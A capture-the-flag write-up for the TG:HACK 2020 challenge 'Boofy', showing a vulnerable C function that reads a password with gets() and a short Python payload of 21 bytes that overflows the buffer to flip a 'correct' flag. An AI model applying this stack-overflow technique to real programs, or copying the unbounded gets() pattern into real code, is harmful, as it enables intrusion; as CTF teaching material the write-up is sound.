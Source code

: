 
## Boofy
### Description

> Author: [**Ingeborg Ytrehus - ingeborg_y#6548**](https://tghack.no/authors#16)
>
> This program looks like it's password protected, but we can't seem to find the correct password.
>
> ```
> nc boofy.tghack.no 6003
> ```
>
> or use a mirror closer to you:
>
> - `nc us.boofy.tghack.no 6003` (US)
> - `nc asia.boofy.tghack.no 6003` (Japan)
>
> files:
>
> - [download binary](https://storage.googleapis.com/tghack-public/2020/f93e424b7f8ce060b0c00dc135269128/boofy)
> - [download source](https://storage.googleapis.com/tghack-public/2020/f93e424b7f8ce060b0c00dc135269128/boofy.c)

### Analysis

It's a really easy task. The codes `gets(password)` will overflow the buffer and we can get flag by overwrite `correct` to `\x01`.

```c
void try_password(){
	char password[20] = { 0 };
	int correct = 0;	
	printf("Please enter the password?\n");
	gets(password);
	if (correct == 1) {
		get_flag();
	} else {
		printf("Sorry, but that's not the right password...\n");
	}
}
```

### Solution

```python
offset = 21
payload = '\x01'*offset
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/TG:HACK2020/pwn/boofy) 


